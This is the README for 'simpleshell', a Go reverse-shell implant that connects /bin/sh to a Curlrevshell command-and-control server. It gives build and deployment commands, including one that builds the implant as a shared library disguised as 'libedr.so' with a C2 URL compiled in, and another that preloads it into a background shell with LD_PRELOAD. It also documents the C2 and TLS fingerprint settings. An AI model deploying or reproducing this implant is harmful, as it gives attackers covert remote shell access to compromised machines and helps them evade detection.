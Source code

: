 `simpleshell` the Program
=========================
A small program which connects a subprogram and Curlrevshell.  It can also be
built as a shared object file.

Quickstart
----------

### Standalone Program
```sh
go build
# Put it on target
./simpleshell
```

### Injectable Library
```sh
go build -v -trimpath -buildmode c-shared -o libedr.so -ldflags '
    -w -s
    -X main.C2=https://example.com/io
    -X Fingerprint=pSUroiq0g92Z3m08n7g/zPQyspRyjm2x/enFRndcdL0=
'
echo sleep 1024 | LD_PRELOAD=./libedr.so sh </dev/null >&0 2>&0 &
```

Usage
-----
```
Usage: simpleshell [options] [command...]

Simple single-stream implant which connects a command to Curlrevshell.

The command which would be run is

/bin/sh

Options:
  -c2 URL
    	Curlrevshell's URL (default "https://127.0.0.1:4444/io")
  -fingerprint fingerrpint
    	Curlrevshell's TLS fingerrpint
```

Config
------
Configuration comes in three forms: compile-time defaults, environment
variables, and command-line flags.

If a TLS Fingerprint is not given, normal TLS validation is performed.

### Compile-time defaults
These may be set with `-ldflags '-X...'` as in the [Quickstart](#Quickstart)
above.

Variable           | Default                     | Description
-------------------|-----------------------------|------------
`main.Args`        | _none_                      | Subprocess arguments
`main.C2`          | `https://127.0.0.1:4444/io` | Curlrevshell's URL
`main.Fingerprint` | _none_                      | Curlrevshell's TLS Fingerprint

### Environment variables
Config may also be passed via environment variables, which override
compile-time defaults.

Environment Variable | Compile-Time equivalent
---------------------|------------------------
`SIMPLESHELL_ARGS`   | `main.Args`
`SIMPLESHELL_C2`     | `main.C2`
`SIMPLESHELL_FP`     | `main.Fingerprint`

### Command-line options
Config can also be specified on the command-line, when Simpleshell is running
as a standalone binary.  Command-line config overrides environment variables.

Option         | Compile-Time equivalent
---------------|------------------------
_No flag_      | `main.Args`
`-c2`          | `main.C2`
`-fingerprint` | `main.Fingerprint`
